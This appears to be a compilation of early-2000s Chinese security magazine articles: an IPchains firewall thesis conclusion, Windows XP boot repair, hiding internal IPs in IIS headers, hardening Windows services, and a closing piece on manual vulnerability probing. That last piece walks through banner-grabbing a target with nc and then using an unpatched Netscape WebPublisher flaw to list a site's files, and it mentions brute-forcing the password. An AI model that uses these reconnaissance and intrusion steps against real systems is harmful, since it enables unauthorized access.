本文主要是对网络防火墙理论与技术，以及具体的 Linux 环境下的 IPchains 防火墙的研究，并在理论研究学习的基础上，针对 IPchains 的工作原理，为它制作了一个交互界面，使其更易于使用。

##### 6.1 总结

从进行网络防火墙技术理论研究的基本需求出发，简要分析了网络安全及网络管理方面的有关问题，主要包括网络安全威胁、系统安全目标和安全评估准则。在此基础上，对网络防火墙技术进行了系统的研究。

- （1）对 TCP/IP 网络安全进行分析，说明了主要存在的网络攻击手段的原理和攻击方法，即防火墙的防范对象和范围。
- （2）在对防火墙的主要功能和主要类型进行分析后，将防火墙技术研究从包过滤、网络地址转换和应用级代理三个方面进一步展开。分别介绍了它们的概念、工作原理和工作过程，分析了它们各自的优、缺点与使用特性。指出在一个实际的网络防火墙系统中，应结合运用三种技术的必要性和可行性。

Linux 环境下的 IPchains 防火墙的研究是对于网络防火墙技术研究的具体化，是本文在对网络防火墙理论分析的基础上所作的探索和发展，主要包括：

- 1. 在前面防火墙技术研究的基础上，分析了 IPchains 的结构、工作流程和 IPchains 防火墙的实现技术，着重结合防火墙的基本技术研究了 IPchains 防火墙的实现技术，分别从包过滤和网络转换两个方面进行解析，对其流程及算法都进行了较为详细的分析。
- 2. 在 IPchains 理论分析的基础上，对 IPchains 在校园网中的运用提出了方案，包括防火墙主机的设置和 IPchains 规则的设立，着重针对校园网的实际设计了一个 IPchains 安全策略，以保护校园网的安全。
- 3. 最后，在对 IPchains 防火墙的理论研究理解上，为 IPchains 制作了一个简单的交互界面，这是对 IPchains 防火墙理论研究的一种检验和发展。

##### 6.2 展望

考虑到 Internet 发展的凶猛势头和防火墙产品的更新步伐，要全面展望防火墙技术的发展几乎是不可能的。但是，从产品及功能上，却又可以看出一些动向和趋势。下面几点是作者对防火墙技术可能发展趋势的阐述：

- 1. 防火墙将从目前对于网或内部网管理的方式向远程上网集中管理的方式发展；
- 2. 过滤深度不断加强，从目前的地址、服务过滤，发展到 URL（页面）过滤、关键字过滤和对 Active X、Java 等的过滤，并逐渐有病毒清除功能。
- 3. 利用防火墙建立专用网（VPN）是较长一段时间的用户使用的主流，IP 的加密需求越来越强，安全协议的开发是一大热点；
- 4. 包过滤系统向着更具柔性和多功能的方面发展；
- 5. 对网络攻击的检测和告警将成为防火墙的重要功能；
- 6. 安全管理工具不断完善，特别是可疑活动的日志分析工具等将成为防火墙产品的一部分。

### 对 Windows XP 启动故障的诊断

文／廉育功

**故障一：**朋友的计算机装有 Windows 98 和 Windows XP，使用一段时间后重新安装 Windows 98，造成 Windows XP 无法启动。

**故障分析：**重新安装的 Windows 98 将位于系统启动分区根目录下的 XP 启动文件覆盖，造成 XP 无法启动。

**故障的解决：**知道了原因，该故障就会迎刃而解了。解决问题的关键是重装 XP 的 OS Loader（提示：WinNT/2000 与 WinXP 的引导程序），将 XP 的安装盘放入光驱，然后进入 XP 的安装程序，待其将安装程序拷贝到你的磁盘后立即停止，然后再回到系统启动分区的根目录，编辑 Boot.ini 文件，将其中所有的“$”删除即可。这里提醒大家注意的是，一定要掌握好安装的分寸，因为我们安装的只是 XP 的引导程序而不是重装 XP！

什么，找不到 Boot.ini 文件？好吧，那我再介绍一下找到 OS Loader 启动文件的方法：首先，确认并找到系统启动分区，并进入其根目录。然后，打开菜单栏中的“工具”菜单，选择“文件夹选项”，在“文件夹选项”窗口中选择“查看”标签页，再将“隐藏受操作系统保护的文件（推荐）”前的勾去掉，这时会弹出一个警告对话框，不必理它，选“确定”就是了。还有，要把“隐藏文件和文件夹”置于“显示所有文件和文件夹”，选择“确定”后再回到系统盘根目录，这时你会发现在该目录下，会出现许多系统和隐藏文件，即可找到 Boot.ini、ntldr、ntdetect.com 这三个重要的启动文件了（注意：在编辑好 Boot.ini 文件后，一定要将刚才的改动再改回来）。

**故障的预防：**其实，这样的故障本可以不发生，只要在重装 Win98 时，使用 Win98 的启动盘启动，这时，在启动画面上就会出现“Win98 安装”这么一条选项，选择它，你就可以放心地安装了！

**故障二：**朋友的计算机原来为 Win98 与 XP 双启动，后来觉得 Win98 不够稳定，遂将其升级为 Win2000，造成 Windows XP 无法启动。

**故障分析：**将 Win98 升级为 Win2000，Win2000 改写了 ntldr、ntdetect.com、boot.ini 这三个重要的启动文件，Win2000 无法引导 XP，造成 XP 无法启动。

**故障的解决：**解决该故障的关键是用 WinXP 引导 Win2000（注意：Win2000 引导不了 XP，但 XP 可以引导 Win2000），即使用 XP 的 ntldr、ntdetect.com 文件启动系统，让 XP 引导 Win2000。

先启动 Win98，然后从 XP 的安装光盘的 I386 目录中提取 ntldr、ntdetect.com 文件，将这两个文件拷贝到系统启动分区根目录下并将其置为只读、隐藏属性。这样即可启动你的 XP 了，如果你平常主要使用 XP 工作，想将默认的启动选项改回为 XP 的话，只需使用记事本编辑一下 Boot.ini 文件，将该文件 XP 的启动条目拷到“default=”后即可，如下：

```text
[boot loader]
timeout=7
default=multi(0)disk(0)rdisk(0)partition(2)\WINDOWS

[operating systems]
multi(0)disk(0)rdisk(0)partition(1)\WINNT="Microsoft Windows 2000 Professional" /fastdetect
multi(0)disk(0)rdisk(0)partition(2)\WINDOWS="Microsoft Windows XP" /fastdetect
```

最后，将其置为只读、隐藏属性保存到系统启动分区的根目录下即可。

另外的一种方法是：从其他可正常启动、装有相同版本 XP 的机器中，将这三个文件拷贝过来，再根据需要（XP 为默认选项）按照上面的方法编辑 Boot.ini 文件就行了。

**故障的预防：**只需在升级前将那三个启动文件备份，然后从 Win98 的启动盘安装 Win2000，安装完成后再将那三个备份文件恢复到系统启动分区的根目录，即可避免上述麻烦出现。

**故障三：**朋友的系统更新 XP 的一个驱动程序后，XP 无法启动。

**故障分析：**显然是新安装的驱动程序存在问题，造成 XP 无法启动！

**故障的解决：**解决该故障的关键是使用稳定可靠的驱动程序，替换当前的驱动。如果在 Win98 下遇到这样的问题，那你可能首先想到进入安全模式，再从安全模式下删除或替换当前驱动。可 XP 的安全模式在哪里呢？其实，找到它也很简单。当你启动 XP 时，出现启动进度条时按 F8 键，即可调出 XP 的启动菜单，从中选择安全模式即可。进入了 XP 的安全模式问题就简单了，最快捷、最简单的方法是使用 Windows XP 的系统还原，将系统恢复到以前的正常状态。当然，你也可以使用 Win98 下排除此类问题的老方法，想必大家都能应付，这里不再赘述。

**故障的预防：**由于使用了不够稳定的 XP 驱动引起的 XP 启动故障比较常见，建议选择 XP 驱动程序时不要太赶时髦，最好不要选择最新的驱动程序，除非你愿意帮忙做测试。

最后提醒大家的是：遇到该类故障不要惊慌失措，一定要冷静，仔细分析故障原因，找到解决故障的方法。祝大家都能用好 Windows XP，充分体验数字生活的乐趣！

### 防止内部 IP 地址泄露的方法

文／一水

当访问 IIS 网站上的静态 HTML 文件时，比如 Index.htm，IIS 响应中会包含一个 Content-Location 文件头。如果 IIS 配置不当，Content-Location 文件头中将包含服务器的 IP 地址内容，这样就导致了隐藏在 NAT 防火墙或者代理服务器后面的内部网 IP 地址信息的泄露，给攻击者有机可乘。

下面我就介绍 2 种解决办法，实现将 IP 地址信息替换为域名信息的目的，帮助系统管理员消除内部网的 IP 地址泄露隐患。

什么是 IIS 对页面文件的响应信息呢？当我们使用浏览器访问 IIS 网站 Web 服务器上的页面内容时，IIS 将返回给用户一个完整的响应信息。简单情况下，我们可以认为这个响应信息包含 2 部分内容：

- **系统信息**：诸如访问状态、服务器信息、文件类型、正文长度等内容。
- **正文信息**：通常情况下就是我们在浏览器中看到的页面内容，也就是在浏览器中可以查看到的页面源代码内容。

当我们使用高级语言中的相关 Internet 控件访问一个页面内容时，比如使用 VB 的 Internet Control 控件来编写自己的浏览器或者下载程序，最终就会得到包含上述 2 部分内容的完整响应信息。

首先我们来看一个例子，它显示了默认安装情况下 IIS 对 HTML 文件的响应信息：

```text
HTTP/1.1 200 OK
Server: Microsoft-IIS/5.0
Content-Location: http://192.168.1.1/index.htm
Date: Wed, 31 Oct 2001 04:19:40 GMT
Content-Type: text/html
Accept-Ranges: bytes
Last-Modified: Fri, 12 Oct 2001 07:48:06 GMT
ETag: "03f7e3af252c11:9a2"
Content-Length: 7141
```

上面响应信息的第 3 行内容包含了内部网的 IP 地址信息，这是我们不希望的。我们希望 IIS 响应如下的内容：

```text
HTTP/1.1 200 OK
Server: Microsoft-IIS/5.0
Content-Location: http://www.mywebsite.com/index.htm
Date: Wed, 31 Oct 2001 04:19:40 GMT
Content-Type: text/html
Accept-Ranges: bytes
Last-Modified: Fri, 12 Oct 2001 07:48:06 GMT
ETag: "03f7e3af252c11:9a2"
Content-Length: 7141
```

也就是说，将第 3 行内容中的 IP 地址信息替换为域名信息。下面来看看解决办法。

#### 解决方法一：执行脚本程序 Adsutil.vbs

通过修改 IIS 数据库中的一个数值，就可以达到将 Content-Location 文件头中的 IP 地址信息转换为域名信息的目的。

第一种方法是通过执行一个 VBS 脚本程序完成 IIS 数据库的相关修改工作，这个脚本程序叫做 Adsutil.vbs，它随 IIS 安装后生成。

> 注意：由于实际的应用环境不同，微软公司没有担保这个软件的使用安全性。所以，我建议在执行这个脚本程序前，做好服务器上的重要数据备份。

对于 IIS 4.0 服务器，执行步骤如下：

- 1. 点击“开始/运行”，输入“cmd”，点击“确定”，进入命令行状态窗口。
- 2. 切换到 IIS 4.0 系统程序安装目录，一般是 `c:\winnt\system32\inetsrv\adminsamples`。
- 3. 执行以下命令，修改 IIS 数据库相关数值，设置 Content-Location 文件头使用域名信息：`adsutil set w3svc/UseHostName True`。
- 4. 执行以下命令，关闭 Internet 服务程序：`net stop iisadmin /y`。
- 5. 执行以下命令，重新启动相关 Internet 应用程序：`net start w3svc`。

> 注意：在执行完第 4 步后，要观察一下都有哪些 Internet 应用程序被停止，然后在第 5 步中依次重新启动它们。

对于 IIS 5.0 服务器，执行步骤如下：

- 1. 点击“开始/运行”，输入“cmd”，点击“确定”，进入命令行状态窗口。
- 2. 切换到 IIS 5.0 系统程序安装目录，一般是 `c:\inetpub\adminscripts`。
- 3. 执行以下命令，修改 IIS 数据库相关数值，设置 Content-Location 文件头使用域名信息：`adsutil set w3svc/UseHostName True`。
- 4. 执行以下命令，关闭 Internet 服务程序：`net stop iisadmin /y`。
- 5. 执行以下命令，重新启动相关 Internet 应用程序：`net start w3svc`。

> 同样请注意：在执行完第 4 步后，要观察一下都有哪些 Internet 应用程序被停止，然后在第 5 步中依次重新启动它们。

#### 解决方法二：将 .htm 文件改名为 .asp 文件，并定制文件头信息

我要介绍的第二种方法采取了一种间接处理的方式：

- 1. 首先将 .HTM 文件改名为 .ASP 文件。
- 2. 因为 IIS 对 ASP 文件的响应中并不包含 Content-Location 文件头内容，所以接着要在 IIS 管理器中为之创建一个定制文件头，以返回特殊的 Content-Location 文件头内容。

下面我们来看看具体的操作步骤：

- 1. 将静态页面文件（比如 `.htm`、`.html`）改名为 `.asp` 文件。  
  注意：经过这样的文件改名后，当访问原来的 `.htm` 文件时，将启动 ASP 引擎，从性能上来看，是稍稍有些降低的。
- 2. 启动 Internet 服务管理器。
- 3. 双击“Internet 信息服务”，扩展下属内容。
- 4. 点击要处理服务器名字左边的加号，扩展下属内容。
- 5. 右键点击“默认 Web 站点”，选择“属性”。
- 6. 点击“头”选项卡。
- 7. 在“自定义头”部分，点击“添加”。
- 8. 在“自定义头名称”处输入“Content-Location”，在“自定义头值”处输入你期望的域名信息，比如“http://www.mywebsite.com”。
- 9. 依次点击“确定”，完成全部修改工作。

### 加强微软服务的安全性

文／Mark Burnett　翻译／Refdom

关闭不必要的服务，这听起来好像是每一本安全书、检查列表或者训练课程所鼓吹的。但是，多数建议到此为止了，留给系统管理员自己去猜测哪些才是不必要的服务，最好怎么去关闭它们。当然，点击“管理工具”的“服务”可以很容易查看可能的服务列表，并且也很容易双击不用的服务，然后把“启动类型”设置为“关闭”。但是，要加固服务的安全性需要做更多的事情。

服务是运行在后台的应用程序，不依赖于用户会话。因为服务在系统启动的时候就运行，很适合于那些服务器类型的应用程序，比如 Web 服务器。但这也正是它的弱点，因为用户通常不会注意到服务在运行。没有用户交互，通常服务器会运行许多默认的服务，并且几乎不被注意到潜在的安全风险，这就让很多很明显的蠕虫得以在网络中扩散，比如“Code Red”和“Nimda”这样的蠕虫，正是利用了 Web 服务。

要掌握 Windows 的安全，你必须熟练操作 Windows 服务。你必须明白服务怎么运作、它们怎么被利用以及怎样让这些服务安全。本文会提供 Windows 服务的指引，让你了解更多。不过不会告诉你哪个服务需要运行和哪个需要关闭，但是会让你了解最好应该怎么操作服务。

#### 服务怎么被破解利用

Windows 服务被破解利用，通常通过操作服务运行命令或者利用文件系统读写受保护文件。由于多数服务运行于 SYSTEM 账号安全关系下，这让它们拥有进行多数系统操作的特权，也因此成为攻击者关注的对象。通过操作服务，攻击者能提高自己的权限，并做任意想做的事情。比如 Microsoft Security Bulletin MS02-006，处理在 SNMP 服务中的缓冲区溢出，可以让攻击者远程用 SYSTEM 账号权限执行命令。

其他破解方式危险性低些，但是仍然能用服务的缺陷去执行未认证的动作。比如，SMTP 服务中的缺陷允许垃圾邮件发送者伪造身份发送邮件。攻击者取得服务访问权的途径，对于大多数网络服务来说，只是简单连接相应的 TCP 端口。对于其他服务，攻击者必须拥有本地访问权去进行漏洞破解。要保护一个服务，你必须警惕缺陷并最小化暴露这些缺陷。

#### 怎样才能最小化服务风险

要最小化服务风险，最显而易见的方法就是关闭这个服务。当然，一些服务是需要的，这种情况下，需要及时保证补丁安装。一旦严重缺陷被公布，微软通常会发布相应的补丁弥补该漏洞。攻击者最通常的攻击也是试图利用这些已知的安全漏洞。保证补丁，你就能尽量减少危险。

另一种方式是不要让服务运行于本地 SYSTEM 账号下。你可以创建一个新的无特权账号去运行这个服务，因此能消除所有系统控制权。但是这样做存在负面影响。比如，你需要去了解并确定新账号所需要的最小权限。同时，要为处理 100 项服务各自安排账号也是不可取的。Windows XP 和 .NET 服务器通过两个新的服务账号处理这个问题：LocalService 和 NetworkService。这些账号运行最小的特权，因此能限制服务的权力。Windows 2000 用户最好让服务独立于 SYSTEM 账号，除非能确定拥有高安全性能。

有些服务虽然没有缺陷，但能让服务器暴露于其他攻击方式之下。比如，SNMP 服务能提供敏感信息。如果你必须使用该服务，那么可通过防火墙设置阻止端口，来控制访问权。因此，最好的保护还是关闭不必要的服务。

#### 怎样最佳地管理服务

在解释怎样除去不用的服务之前，应该先介绍一个工具：sc.exe——服务控制命令行工具。这个工具是 Windows 2000 Resource Kit 中自带的，并且在 Windows XP 中默认安装。sc.exe 能让你更自由地控制服务，也能方便地添加脚本。

管理工具中的服务工具有很大局限。比如，它只能显示服务的三种状态：停止、暂停和运行。事实上，还有四种其他状态，可以用 sc.exe 查看。如果服务以 stop-pending 状态悬挂起来，服务管理工具只会显示服务已经停止。更混乱的是，NET START 命令仍显示服务正在运行。只有 sc.exe 命令才会显示服务正确的状态。

sc.exe 是管理服务的重要工具，查看更多的使用方法，可以浏览 Microsoft TechNet Overview：
http://www.microsoft.com/TechNet/prodtechnol/winxppro/proddocs/sc.asp

#### 服务是怎样启动的

Windows 服务有三种启动方式：自动、手动和禁止。自动启动意味着服务会在系统启动时加载。手动，最好的称谓应该是命令启动。当服务被设置为手动模式启动，服务会保持静止状态直到用户启动它，或者应用程序通过 StartService 启动它。一句话，手动模式会在服务被需要时启动。

比如，如果运行剪贴板（Clipbk.exe）查看本地剪贴板，ClipBook 服务就会开始。ClipBook 服务也允许剪贴板被远程计算机查看。如果设置为自动或者手动模式启动的话，那么 ClipBook 服务依靠 Network DDE 服务，DDE 这个服务又依靠 DDE DSDM 服务，这些服务都会被启动。只有把启动方式设置为“禁止”，才能阻止上面的情况发生。但是禁止并不是真正的禁止。用户能够修改被禁止服务的启动模式为自动或者手动来启动服务。

sc.exe 提供更多的服务控制，包括删除一个服务。

#### 怎么知道需要什么服务

知道哪个服务可以被禁止是一个复杂的问题。有些服务能显而易见地关闭，但是有些服务就不是那么明显。最基础的规则就是如果你没有服务的特别用户，那么关闭它。如果你认为你以后要使用这个服务，那么在你使用它之前先关闭它。

你需要的服务依靠服务器的角色。如果你有一个 Web 服务器，那么很明显，你需要 IIS 运行，不然的话就关闭它。如果你的服务器不是域的一部分，你可以关闭所有跟 Windows 网络相关的服务。

对于运行 IIS 哪些服务是必须的，可以参考微软的建议：List of Services Needed to Run a Secure IIS Computer。
http://support.microsoft.com/default.aspx?scid=kb;EN-US;q189271

注意文中，微软列出 License Logging Service 是需要的，但这只在记录许可的时候需要，并不是 IIS 操作需要的（也需要注意文中附录提及的服务）。

#### 真会搞得一团糟么——关闭 Remote Procedure Call 服务

通常，确定是否需要一个服务就是关闭它，看看是否有什么被影响了。但是用这种方法要非常小心。有一个服务一直不能关闭：Remote Procedure Call（RPC）服务，这个服务被很多其他服务所要求。一旦你关闭它，你可能不能再回到服务管理工具再次启动它了。在某些配置下，关闭这个服务会阻止系统重启。因此不要关闭它。

另一个需要注意的就是 Print Spooler 服务。尽管你可能没有安装打印机，但你也需要运行这个服务，这样才能安装补丁包。最好是把它设置为手动启动。

#### 怎样知道一个服务在做什么

从服务的描述很难确定它们的真实用途。比如 Storage Groveler 服务，描述为：“Scans Single Instance Storage (SIS) volumes for duplicate files, and points duplicate files to one data storage point, conserving disk space.” 它做什么并没有提及，然而只被用于远程安装服务（RIS），如果你不需要远程安装，你就不需要这个服务。

- （1）检查更多的描述细节，在 Microsoft TechNet's Windows 2000 Services：
  http://www.microsoft.com/technet/prodtechnol/windows2000serv/deploy/prodspecs/win2ksvc.asp
- （2）检查文件描述，通过右击文件并选择版本查看。
- （3）检查服务的依存关系。
- （4）检查服务打开的端口。

#### 怎样知道一个服务使用的文件

了解一个服务，需要了解这个服务所用的文件。通常，你能通过查看它运行的文件来决定是否需要这个服务。这个批处理文件可以用来查看文件属性，其中使用了 Windows Resource Kit 工具的 reg.exe 和 depends.exe：

```bat
@set imagepath=
@FOR /F "tokens=3" %%a in ('reg query HKLM\system\currentcontrolset\services\%1 /v imagepath 2^>nul ^| find "imagepath"') DO @set imagepath=%%a
@if defined imagepath (
@echo Dependencies for %imagepath%:
@call depends /a0f1c /oc:svcdep.tmp "%imagepath%"
@FOR /F "tokens=1 delims=, skip=1" %%b in ('type svcdep.tmp ^| findstr /B /c:"|" ^| findstr /V /c:"?" ^| sort') do @echo %%b
@del svcdep.tmp 2>nul
)
```

把上面的内容保存为 svcdep.bat，然后用服务名（短名称）作为参数启动，比如查看 Replication 服务，输入 svcdep.bat ntfrs：

可以看到：

```text
Dependencies for %SystemRoot%\system32\ntfrs.exe:
"c:\winnt\system32\DBGHELP.DLL"
"c:\winnt\system32\DNSAPI.DLL"
"c:\winnt\system32\ESENT.DLL"
"c:\winnt\system32\GDI32.DLL"
"c:\winnt\system32\KERNEL32.DLL"
"c:\winnt\system32\MSVCRT.DLL"
"c:\winnt\system32\NETAPI32.DLL"
"c:\winnt\system32\NETRAP.DLL"
"c:\winnt\system32\NTDLL.DLL"
"c:\winnt\system32\NTDSAPI.DLL"
"c:\winnt\system32\NTFRS.EXE"
"c:\winnt\system32\RPCRT4.DLL"
"c:\winnt\system32\SAMLIB.DLL"
"c:\winnt\system32\SECUR32.DLL"
"c:\winnt\system32\USER32.DLL"
"c:\winnt\system32\WLDAP32.DLL"
"c:\winnt\system32\WS2_32.DLL"
"c:\winnt\system32\WS2HELP.DLL"
"c:\winnt\system32\WSOCK32.DLL"
```

从中可以看出它使用了 DNS（DNSAPI.DLL）、Winsock（WS*.DLL）和 Remote Procedure Call（RPCRT4.DLL）库，这不仅让你能了解服务会做什么，也能让你知道它需要什么。

#### 怎样完全地禁止服务

设置一个服务的启动模式为禁止并不能阻止这个服务被运行，因为它并没有从系统中移除，通过手工仍然能够启动。然而 sc.exe 允许你从注册表中删除一个服务，也就是从系统中移除。通过输入：sc.exe delete <service name>，你可以移除所有同服务相关的注册表项，它就不会再在服务管理工具中显示了。当你能确认不需要一个服务的时候，这是一个好办法，但是小心，因为 sc.exe 在删除服务后不能再通过操作中止恢复了。

有些服务你可以通过移走服务文件来禁止。因此，你必须先列出服务文件依赖关系，然后确定服务文件中哪些是惟一的，哪些是 Windows 的共享库。有些显而易见，但是其他的不是那么明显。你可以先备份，然后再做删除文件操作。

如果查看 FAX 服务的文件依赖关系，可以得到这个列表：

```text
"c:\winnt\system32\COMCTL32.DLL"
"c:\winnt\system32\FAXEVENT.DLL"
"c:\winnt\system32\FAXSVC.EXE"
"c:\winnt\system32\FAXTIFF.DLL"
"c:\winnt\system32\GDI32.DLL"
"c:\winnt\system32\KERNEL32.DLL"
"c:\winnt\system32\MSVCRT.DLL"
"c:\winnt\system32\NTDLL.DLL"
"c:\winnt\system32\RPCRT4.DLL"
"c:\winnt\system32\SHELL32.DLL"
"c:\winnt\system32\SHLWAPI.DLL"
"c:\winnt\system32\USER32.DLL"
```

可以从中发现三个文件：faxevent.dll、faxsvc.exe 和 faxtiff.dll。由于这三个文件明显只提供 FAX 功能，你就可以删除它们了。其实你只需要删除适当的重要文件就是，而不用删除所有文件。但请注意，这不仅可能影响到服务器安全，而且需要很多的经验。

域安全策略可以允许设置服务权限，然而对于单独的服务器就不可能了，比如一个 Web 服务器。这种情况下，你必须依靠安全策略模板。使用安全模板 MMC 配置启动方式和每个服务的安全设置，然后用安全配置编辑器（secedit.exe）导入这个模板。

#### 怎么加强服务的启动方式

在你确定了哪个服务是需要的，哪个服务是需要禁止的之后，接下来重要的就是保证这样执行。但是，设置服务启动方式为“禁止”并不意味着真的被禁止，服务的启动方式也不能被锁定，而且服务管理工具不提供设置服务，让谁能有权限启动服务。

#### 结论

掌握 Windows 服务是一种技巧，不仅只适用于管理员。如果你能理解服务并知道怎么去控制它们，你能让服务器更加安全。

### 手工检测安全漏洞的重要性

文／Littleshrimp（Kaka）

一般的攻击手段中，前奏是搜集系统信息，发掘主机漏洞，然后才去运用相应的手法来尝试入侵远程主机。而对于菜鸟们来说，搜集信息就是用扫描器去扫描远程主机的 IP 地址，看看扫描结果中有哪些可以利用的漏洞，然后再开展“工作”。那么，如果扫描器什么也扫不出，是不是就没辙了呢？有没有想过自己手动去测试一下远程主机的安全性？本文就是教你如何进行手工检测漏洞，文中从头至尾“手把手”地教你如何脱离扫描器来搜集信息，还包括应该如何查找相关漏洞的资料，对于读者来说，非常容易理解和吸收。

很多入侵者或者网络管理员大多依赖一些网络安全扫描检测工具来查看某些系统的漏洞（当然这不是绝对，大多数人是这么做的），比如 SSS、流光、X-Scanner……也许还有我不知道的安全检测工具，在此我只是列举了一些常见的工具。

我们首先举一个实例。我们来看看一个站点经过几种扫描器扫描后的结果，这里只列举 SSS（图 1 和图 2 所示）、Nmap（图 3 所示）扫描后的结果：

由图 1 和图 2 我们可以看到，扫描结果只有一个，开了 80 Web 服务。很明显，他们装了防火墙，过滤了一些端口。那么我们用 Nmap 扫描以后的结果是什么样呢？Nmap 可以扫出一些被防火墙过滤的端口。在 Windows 下扫描结果（图 3）：还是不行，Linux 下的扫描没有测试，估计结果也是一样的。那么我们还有没有其他的方法，这就是本文要论述的——手工检测漏洞的重要性！既然对方只开了 80 端口，我们为什么不能从这里开始？上边 SSS 扫描器没有对 80 端口扫出什么东西来，那么我们先检测一下，看看对方是运行在什么 Web 服务器上。在 DOS 下我们可以用 Telnet IP 80，回车得到一些 Web 服务器的信息。当然我们也可以用 Nc 这把瑞士军刀。这里我用的是 Nc，加了参数 -vv，以下是详细输出：

```text
D:\hack\nc >nc -vv x.x.84.9 80
x.x.84.9: inverse host lookup failed: h_errno 11004:
NO_DATA.
(UNKNOWN) [x.x.84.9] 80 (http) open

HTTP/1.1 400 Bad Request
Server: Netscape-Enterprise/3.5.1

Your browser sent a message this server could not understand.
sent 1, rcvd 124
```

我们从输出的结果能够看出这台机器运行的 Web 服务器是 Netscape-Enterprise/3.5.1。我不怎么熟悉，可能运行在 Solaris 系统上，那么让我们先搜索一下，看看这个 Web 服务器有没有什么致命的漏洞。打开 http://www.google.com 填入“Netscape-Enterprise/3.5.1 漏洞”点击搜索，返回结果：找不到和您的查询“Netscape-Enterprise/3.5.1 漏洞”相符的网页。

- 请检查输入字词有无错误
- 请换用不同的查询字词
- 请改用较常见的字词
- 请减少查询字词数量

看来是太详细了，那么我们去掉 /3.5.1 再搜索一下看看……（如图 4 所示）。

再看看下边这个：Netscape Enterprise Web Publisher 存在缓冲溢出。

受影响系统：Netscape Enterprise 4.1 和以前的版本。

描述：Netscape Enterprise WebPublisher 允许远程列出目录内容。

详细：Netscape WebPublisher 是 Netscape's Enterprise Web 服务器的附加程序。它允许远程编辑、上传以及下载文件。WebPublisher 缺省安装在 /publisher 目录。一个没有系统有效账号的用户可能通过下载一些 Java Applets 访问 WebPublisher，并列出 Web 服务器的目录结构。通过发送 GET /publisher 请求，我们可以得到一个页面“WebPublisher Home Page”，它包含一些……关于 WebPublisher 的信息。这一页有一个“Start WebPublisher”按钮，点击后会下载 WebPublisher Java Applet，并自动运行它。它要求你同意三个声明，然后系统会要求你输入一个用户名。这里你可以随意输入一个名字，它并不需要是有效的系统用户名。Java 程序会继续打开 WebPublisher 窗口，显示 Web Server 根目录列表。在顶端的菜单条让你上传或者下载、编辑、删除或者移动文件。做这些操作需要输入口令，但是这个口令可以通过暴力猜测。

由此我们看到，利用这个漏洞可以浏览站点结构，不过这个漏洞发布时间已经很久了。不管这个，我们先看这个站点有没有该漏洞呢？那么我们就试试看了：

由图 5 我们可以看出这么老的漏洞也没有修补。按照这个漏洞报告，我们可以启动一个 WebPublisher 来看整个站点的结构和文件。剩下的就不用我多说了，贴一些图片上来给大家看看（如图 6、图 7、图 8）：





